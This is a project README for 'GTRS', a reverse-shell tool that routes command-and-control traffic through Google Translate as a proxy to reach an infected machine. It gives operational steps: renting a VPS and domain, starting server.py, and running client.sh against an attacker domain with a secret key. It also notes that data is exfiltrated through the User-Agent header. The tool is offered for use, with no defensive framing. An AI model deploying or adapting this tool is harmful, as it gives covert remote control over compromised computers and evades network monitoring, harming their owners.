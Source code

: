 # GTRS - Google Translator Reverse Shell

This tools uses [Google Translator](https://translate.google.com) as a proxy to send arbitrary commands to an infected machine.
```
[INFECTED MACHINE] ==HTTPS==> [GOOGLE TRANSLATE] ==HTTP==> [C2] 
```

# Environment Configuration
First you need a VPS and a domain, for the domain you can get a free one on [Freenom](https://freenom.com/).

# Usage
Start the server.py on your VPS
```bash
python2.7 server.py
Server running on port: 80
Secret Key: e294a11e-bb6f-49ed-b03a-9ec42be55062
```
It will provide you secret key which will be used on the client.sh, run the client on a computer with access to [Google Translator](https://translate.google.com), providing domain and the secret key generated by the server.
```bash
bash client.sh www.c2server.ml e294a11e-bb6f-49ed-b03a-9ec42be55062
```
Now you have an interactive shell using named pipe files, **YES** you can `cd` into directories.

# Poc 
[![CODE_IS_CHEAP_SHOW_ME_THE_DEMO](http://img.youtube.com/vi/02CFsE0k96E/0.jpg)](http://www.youtube.com/watch?v=02CFsE0k96E)

# Known issues 
 * ~~Google translate does not forward POST data, so there's a limit on the amount of data that your server can receive, for example, you'll probably not being able to read a big file like `.bashrc`.~~ `Problem fixed using User-Agent header to sent data`.
 * It's not a problem, but I just don't know if there's a rate limit on Google Translator
 * The client script works on Mac an Linux, but on Linux you need to install the `xmllint` which is on `libxml2-utils`
